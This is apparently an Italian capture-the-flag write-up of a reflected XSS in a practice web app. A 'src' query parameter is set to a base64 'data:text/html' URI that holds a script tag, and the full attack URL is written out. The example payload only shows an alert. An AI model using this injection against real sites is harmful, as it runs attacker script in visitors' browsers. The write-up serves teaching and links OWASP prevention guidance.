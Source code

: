 
Sulla nostra Home page http://{IP_ADDRESS}/

l'unica immagine cliccabile è quella di NSA che porta a http://{IP_ADDRESS}/?page=media&src=nsa 

possiamo provare a modificare il paramentro da passsare a scr

Modifichiamo quindi `nsa` inserendo uno script in Base64  NB. se non é base64 non funzionerá

online ci sono infiniti tool per la codifica di una stringa in base64, la stringa é semplicemente
```
<script>alert("Fuck");</script>
```

quindi la nostra Url diventa
`
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgid3RmIik7PC9zY3JpcHQ+ `

Documentazione
- [owasp - XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
- 
- [owasp - prevent XSS breaches](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
